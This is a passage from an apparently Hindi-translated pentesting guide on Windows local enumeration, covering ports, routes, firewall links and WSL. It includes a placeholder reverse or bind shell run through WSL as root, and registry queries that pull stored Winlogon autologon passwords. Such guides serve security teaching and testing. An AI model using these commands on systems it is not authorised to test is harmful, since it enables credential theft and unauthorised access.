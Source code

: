 बाहर से **प्रतिबंधित सेवाओं** की जांच करें
```bash
netstat -ano #Opened ports?
```
### राउटिंग तालिका
```
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
```
### ARP Table
```
arp -A
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,L
```
### फ़ायरवॉल नियम

[**फ़ायरवॉल से संबंधित कमांड के लिए इस पृष्ठ की जांच करें**](../basic-cmd-for-pentesters.md#firewall) **(नियमों की सूची, नियम बनाना, बंद करना, बंद करना...)**

अधिक [नेटवर्क एन्यूमरेशन के लिए कमांड यहाँ](../basic-cmd-for-pentesters.md#network)

### विंडोज़ सबसिस्टम फॉर लिनक्स (wsl)
```bash
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```
बाइनरी `bash.exe` भी `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe` में पाया जा सकता है।

यदि आप रूट उपयोगकर्ता प्राप्त करते हैं, तो आप किसी भी पोर्ट पर सुन सकते हैं (जब आप पहली बार `nc.exe` का उपयोग करके किसी पोर्ट पर सुनते हैं, तो यह GUI के माध्यम से पूछेगा कि क्या `nc` को फ़ायरवॉल द्वारा अनुमति दी जानी चाहिए)।
```bash
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```
बश को रूट के रूप में आसानी से शुरू करने के लिए, आप `--default-user root` आजमा सकते हैं।

आप `WSL` फ़ाइल प्रणाली को फ़ोल्डर `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\` में खोज सकते हैं।

## Windows क्रेडेंशियल्स

### Winlogon क्रेडेंशियल्स
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#Other way
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```
### Credentials manager / Windows vault
